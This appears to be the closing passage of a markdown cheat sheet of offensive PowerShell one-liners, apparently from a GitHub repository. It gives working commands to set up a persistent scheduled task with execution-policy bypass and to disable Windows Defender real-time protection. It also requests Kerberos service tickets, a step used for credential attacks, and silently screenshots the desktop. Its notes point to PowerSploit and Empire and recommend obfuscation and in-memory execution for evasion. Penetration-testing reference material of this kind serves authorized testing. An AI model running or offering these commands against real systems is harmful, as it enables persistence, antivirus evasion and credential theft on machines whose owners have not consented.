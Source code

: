 ### Scheduled Tasks
- `New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-ep bypass -c <command>'`  
  Creates a persistent scheduled task.

---

## Miscellaneous

### Windows Defender
- `Set-MpPreference -DisableRealtimeMonitoring $true`  
  Disables real-time protection (requires admin).

### Kerberos
- `Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/<target>'`  
  Requests a Kerberos ticket.

### Screenshot
- `[Reflection.Assembly]::LoadWithPartialName('System.Drawing'); $b = New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height); $g = [System.Drawing.Graphics]::FromImage($b); $g.CopyFromScreen(0,0,0,0,$b.Size); $b.Save('screenshot.png')`  
  Captures a screenshot.

---

## Notes
- These commands can be combined with tools like PowerSploit or Empire.
- Obfuscation and in-memory execution are common evasion tactics.
- Always obtain proper authorization before testing.

**Contribute:** Feel free to submit pull requests with additional commands or improvements!
